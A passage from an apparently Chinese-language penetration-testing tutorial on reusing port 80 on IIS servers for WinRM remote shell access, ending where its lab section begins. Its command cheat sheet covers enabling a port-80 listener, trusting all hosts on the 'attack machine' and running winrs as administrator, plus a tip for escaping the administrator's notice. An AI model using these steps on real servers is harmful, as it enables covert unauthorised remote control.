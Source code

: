 **(3) WinRM**

WinRM 全称是 Windows Remote Management，是微软服务器硬件管理功能的一部分，能够对本地或远程的服务器进行管理。WinRM 服务能够让管理员远程登录 windows 操作系统，获得一个类似 telnet 的交互式命令行 shell，而底层通讯协议使用的正是 HTTP。

事实上，WinRM 已经在 HTTP.sys 上注册了名为 wsman 的 url 前缀，默认监听端口 5985。因此，在安装了 IIS 的边界 windows 服务器上，开启 WinRM 服务后修改默认 listener 端口为 80 或新增一个 80 端口的 listener 即可实现端口复用，可以直接通过 80 端口登录 windows 服务器。

**3. 指令速查**

查询当前注册 url 前缀：

```
netsh http show servicestate
```

**(1) 开启 winrm 服务**

Windows 2012 及以上：winrm 默认启动并监听了 5985 端口。

Windows 2008：需要手动启动 winrm。

```
winrm quickconfig ‐q
```

**(2) 增加 80 端口复用**

```
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
```

**(3) 更改 winrm 为 80 端口**

*   默认 5985 端口开启，不需要更改端口。
    
*   默认 5985 端口不开启，则更改 winrm 为 80 端口，否则会因端口改变而引起管理员关注。
    

```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```

**(4) 攻击机也需要启动 winrm 并设置信任连接**

```
# 启动winrm
winrm quickconfig ‐q
# 设置信任主机地址
winrm set winrm/config/Client @{TrustedHosts="*"}
```

**(5) 连接使用 winrs 命令接口连接远程 winrm 服务执行命令，并返回结果**

winrs，Windows Remote Shell，windows 远程 shell，是 winrm 的一个组件。

```
winrs ‐r:http://www.aabbcc.com ‐u:administrator ‐p:Password [命令]
```

**4. 实验**

*   Target：Windows Server 2008 R2 x64
    